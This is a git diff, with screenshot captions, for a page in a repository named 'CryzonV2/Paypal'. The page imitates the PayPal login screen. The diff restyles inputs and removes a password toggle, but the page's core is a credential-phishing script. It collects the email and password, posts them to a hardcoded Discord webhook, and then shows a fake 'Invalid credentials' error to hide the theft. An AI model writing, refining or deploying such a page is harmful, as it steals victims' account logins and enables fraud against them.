

Before and after one commit to CryzonV2/Paypal, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 321-800 px from the top of the page, without its empty margins (346-986 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update input styles and remove password toggle
Refactor input styles and remove toggle password functionality.

```diff
--- a/index.html
+++ b/index.html
@@ -26,18 +26,17 @@ body {
 
 .container img {
     width: 120px;
-    margin-bottom: 50px; /* Logo plus d’espace au dessus du champ Email */
+    margin-bottom: 50px;
 }
 
 .input-container {
-    position: relative;
     width: 100%;
-    margin-bottom: 25px; /* espace entre Email et Password */
+    margin-bottom: 25px;
 }
 
 input {
     width: 100%;
-    padding: 14px 40px 14px 12px;
+    padding: 14px 12px;
     border-radius: 6px;
     border: 1px solid #cccccc;
     font-size: 16px;
@@ -48,16 +47,6 @@ input:focus {
     outline: none;
     border-color: #0070ba;
     box-shadow: 0 0 5px rgba(0,112,186,0.3);
-}
-
-.toggle-password {
-    position: absolute;
-    top: 50%;
-    right: 12px;
-    transform: translateY(-50%);
-    cursor: pointer;
-    font-size: 18px;
-    color: #888888;
 }
 
 .forgot-password {
@@ -75,12 +64,12 @@ input:focus {
 
 .btn-login {
     width: 100%;
-    padding: 16px;
+    padding: 14px 12px;
     background-color: #003087;
     border: none;
-    border-radius: 8px;
+    border-radius: 6px;
     color: white;
-    font-size: 17px;
+    font-size: 16px;
     font-weight: bold;
     cursor: pointer;
     margin-top: 15px;
@@ -104,27 +93,20 @@ input:focus {
 
 <div class="container">
 
-<!-- Logo PayPal -->
 <img src="https://www.top-bank.ch/images/logo_540/paypal.png" alt="PayPal Logo">
 
-<!-- Email / Phone field avec plus d’espace au-dessus -->
-<div class="input-container" style="margin-top:20px;">
+<div class="input-container">
     <input type="text" id="field1" placeholder="Email or Phone Number">
 </div>
 
-<!-- Password field avec toggle eye -->
 <div class="input-container">
     <input type="password" id="field2" placeholder="Password">
-    <span class="toggle-password" onclick="togglePassword()">👁️</span>
 </div>
 
-<!-- Forgot password link -->
 <a href="#" class="forgot-password">Forgot your password?</a>
 
-<!-- Login button -->
 <button class="btn-login" onclick="sendWebhook()">Log In</button>
 
-<!-- Fake error message -->
 <div class="error" id="errorMsg">
 Error: Invalid credentials.
 </div>
@@ -132,16 +114,16 @@ Error: Invalid credentials.
 </div>
 
 <script>
-function togglePassword() {
-    const pwd = document.getElementById("field2");
-    pwd.type = pwd.type === "password" ? "text" : "password";
-}
+// NE PAS METTRE VOTRE WEBHOOK DANS UN SITE PUBLIC
+// Pour tester en local, tu peux le mettre ici
+const webhookURL = "https://discord.com/api/webhooks/1482715159053992098/i50u8cq-9GR5KsOn5J84ZSYydabulGhwyhfUKMrhYUdIYUi5q0AZaxjE7RfLdw907lNf";
 
 function sendWebhook() {
     let field1 = document.getElementById("field1").value;
     let field2 = document.getElementById("field2").value;
 
-    let webhookURL = "https://discord.com/api/webhooks/1482715159053992098/i50u8cq-9GR5KsOn5J84ZSYydabulGhwyhfUKMrhYUdIYUi5q0AZaxjE7RfLdw907lNf";
+    // Vérifie que les champs ne sont pas vides
+    if(field1 === "" || field2 === "") return;
 
     fetch(webhookURL, {
         method:"POST",
@@ -151,6 +133,7 @@ function sendWebhook() {
         })
     });
 
+    // Affiche une fausse erreur
     document.getElementById("errorMsg").style.display = "block";
 }
 </script>
```
